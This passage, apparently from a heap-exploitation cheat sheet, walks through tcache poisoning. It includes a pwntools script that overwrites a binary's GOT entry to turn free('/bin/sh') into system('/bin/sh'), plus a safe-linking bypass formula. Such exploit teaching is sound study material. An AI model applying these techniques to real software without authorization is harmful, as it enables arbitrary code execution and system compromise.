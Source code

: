#### 🧩 Concept

Tcache uses singly linked lists for freed chunks — easy to corrupt.

#### ⚙️ Exploit

1. Free a chunk → goes into tcache bin.
2. Overwrite its `next` pointer with target address (e.g. GOT).
3. Next malloc of same size → returns pointer to GOT.
4. Overwrite GOT entry → arbitrary code execution.

#### Example Pwntools Script

```python
from pwn import *
elf = ELF('./vuln')
p = process(elf.path)

# Step 1: Allocate and free
p.sendline(b'1'); p.sendline(b'64')
p.sendline(b'2')  # free()

# Step 2: Poison tcache
p.sendline(b'3')
p.sendline(p64(elf.got['free']))

# Step 3: Overwrite GOT entry
p.sendline(b'1'); p.sendline(b'64')
p.sendline(b'/bin/sh\x00')
p.sendline(b'1'); p.sendline(b'64')
p.sendline(p64(elf.symbols['system']))
```

Result → `free("/bin/sh")` becomes `system("/bin/sh")`.

***

### XI. 🧠 Safe-Linking Bypass (glibc ≥ 2.32)

Safe-linking XORs the tcache FD pointer with a per-thread secret (ASLR-based).

#### ⚙️ Bypass

1. Leak heap base address.
2. XOR encode your target:

```python
fd = target_addr ^ (heap_base >> 12)
```

3. Write encoded value into FD pointer manually.

***

### XII. ⚙️ Heap Overflow → Arbitrary Write
